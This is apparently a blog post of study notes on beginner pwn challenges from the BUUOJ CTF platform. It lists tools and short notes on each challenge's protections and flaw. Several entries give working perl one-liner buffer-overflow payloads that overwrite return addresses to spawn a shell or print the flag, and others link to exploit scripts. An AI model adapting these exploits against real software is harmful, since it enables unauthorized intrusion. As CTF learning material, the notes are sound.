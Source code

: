 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn 入门"
date:   2020-07-18 12:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault???
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**post**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**script**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. x86, NX enabled and stripped
   2. C `read`
   3. `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**script**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1. x86 and NX enabled
   2. c `gets`
   3. `get_flag` and **peaceful exit**
10. [**script**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5:
    1.  x86, NX enabled, canary found and stripped
    2.  [**format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**script**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0:
    1.  amd64 and NX enabled
    2.  c `read`
    3.  `system` and `"/bin/sh"` found
12. [**script**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1.  x86 and NX enabled
    2.  `system` and `"/bin/sh"` found
    3.  truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**script**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**script**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016